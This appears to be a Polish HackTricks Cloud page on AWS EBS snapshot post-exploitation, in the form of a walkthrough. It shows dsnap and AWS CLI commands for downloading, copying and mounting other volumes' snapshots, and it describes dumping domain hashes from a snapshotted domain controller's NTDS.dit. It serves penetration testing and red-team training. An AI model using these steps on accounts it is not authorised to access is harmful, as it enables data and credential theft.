 # AWS - Zrzut migawki EBS

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### Sprawdzanie migawki lokalnie
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Uwaga** dsnap nie pozwoli ci pobrać publicznych migawek. Aby to obejść, możesz skopiować migawkę do swojego osobistego konta i pobrać ją:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Dla dalszych informacji na temat tej techniki sprawdź oryginalne badania na stronie [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Możesz to zrobić za pomocą Pacu, korzystając z modułu [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Sprawdzanie migawki w AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Zamontuj go w instancji EC2 pod Twoją kontrolą** (musi być w tym samym regionie co kopia zapasowa):

Krok 1: Przejdź do EC2 –> Woluminy i utwórz nowy wolumin o preferowanej wielkości i typie.

Aby wykonać tę czynność, postępuj zgodnie z poniższymi poleceniami:
- Utwórz wolumin EBS do załączenia do instancji EC2.
- Upewnij się, że wolumin EBS i instancja znajdują się w tej samej strefie.

Krok 2: Kliknij prawym przyciskiem na utworzonym woluminie i wybierz opcję "dołącz wolumin".

Krok 3: Wybierz instancję z pola tekstowego instancji.

Aby wykonać tę czynność, użyj poniższego polecenia:
- Dołącz wolumin EBS.

Krok 4: Zaloguj się do instancji EC2 i wyświetl dostępne dyski za pomocą polecenia `lsblk`.

Krok 5: Sprawdź, czy wolumin zawiera jakiekolwiek dane za pomocą polecenia `sudo file -s /dev/xvdf`.

Jeśli wynik powyższego polecenia pokazuje "/dev/xvdf: dane", oznacza to, że wolumin jest pusty.

Krok 6: Sformatuj wolumin do systemu plików ext4 za pomocą polecenia `sudo mkfs -t ext4 /dev/xvdf`. Alternatywnie, możesz również użyć formatu xfs za pomocą polecenia `sudo mkfs -t xfs /dev/xvdf`. Zauważ, że powinieneś użyć albo ext4, albo xfs.

Krok 7: Utwórz katalog o wybranej nazwie, aby zamontować nowy wolumin ext4. Na przykład, możesz użyć nazwy "newvolume".

Aby wykonać tę czynność, użyj polecenia `sudo mkdir /newvolume`.

Krok 8: Zamontuj wolumin do katalogu "newvolume" za pomocą polecenia `sudo mount /dev/xvdf /newvolume/`.

Krok 9: Zmień katalog na katalog "newvolume" i sprawdź miejsce na dysku, aby zweryfikować zamontowanie woluminu.

Aby wykonać tę czynność, użyj poniższych poleceń:
- Zmień katalog na `/newvolume`.
- Sprawdź miejsce na dysku za pomocą polecenia `df -h .`. Wynik tego polecenia powinien pokazać wolne miejsce w katalogu "newvolume".

Możesz to zrobić za pomocą Pacu, korzystając z modułu `ebs__explore_snapshots`.

### Sprawdzanie migawki w AWS (za pomocą wiersza poleceń)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
### Kopia cienia

Każdy użytkownik AWS posiadający uprawnienie **`EC2:CreateSnapshot`** może ukraść hashe wszystkich użytkowników domenowych, tworząc **snapshot kontrolera domeny**, montując go do kontrolowanej przez siebie instancji i **eksportując plik rejestru NTDS.dit i SYSTEM** do użycia z projektem secretsdump Impacket.

Możesz użyć tego narzędzia do zautomatyzowania ataku: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) lub możesz użyć jednej z poprzednich technik po utworzeniu snapshotu.


# Referencje
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
